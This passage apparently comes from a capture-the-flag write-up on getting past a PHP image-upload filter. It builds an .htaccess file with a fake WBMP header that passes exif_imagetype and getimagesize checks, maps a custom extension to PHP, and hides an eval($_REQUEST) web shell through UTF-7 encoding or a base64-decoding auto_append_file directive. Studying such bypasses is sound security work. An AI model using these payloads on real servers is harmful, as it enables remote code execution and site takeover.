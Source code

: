 Also, another idea is provided in reference[2]. It uses the `.wbmp` file with value 15.

By fuzzing, he found a magic number `0x00` that would satisfy the required conditions. And the `.wbmp` file [format](https://en.wikipedia.org/wiki/Wireless_Application_Protocol_Bitmap_Format) very much in line with. So just construct the `00008a398a39` file header:

```python
>>> htaccess = b"\x00\x00\x8a\x39\x8a\x39\nAddType application/x-httpd-php .xxx"
>>> with open('test', 'wb') as f:
...     f.write(htaccess)
...
43
```

```php
php > echo exif_imagetype("test");
15
php > var_dump(getimagesize("test"));
php shell code:1:
array(5) {
  [0] =>
  int(1337)
  [1] =>
  int(1337)
  [2] =>
  int(15)
  [3] =>
  string(26) "width="1337" height="1337""
  'mime' =>
  string(18) "image/vnd.wap.wbmp"
}
```

3.The next problem is that the content of the files cannot contain `<?`. It's too easy when you have XSS experiences, just use another encoding type such as `UTF-7` or `UTF-16`.

```tex
#define width 1337
#define height 1337
AddType application/x-httpd-php .xxx
php_flag display_errors 1
php_flag zend.multibyte 1   # Active specific encoding
php_value zend.script_encoding "UTF-7"
```

```php
php > echo iconv("UTF-8","UTF-7",'<?php @eval($_REQUEST[a]);?>');
+ADw?php +AEA-eval(+ACQAXw-REQUEST+AFs-a+AF0)+ADs?+AD4-
```

Or use utf-16 Big Endian encoding, refer: [bypass filter upload](https://thibaud-robin.fr/articles/bypass-filter-upload/)

But I like the method in reference[2] better, it uses the self-contained feature of `.htaccess` files:

```tex
#define width 1337
#define height 1337
AddType application/x-httpd-php .xxx
php_value auto_append_file "php://filter/convert.base64-decode/resource=shell.xxx"
```
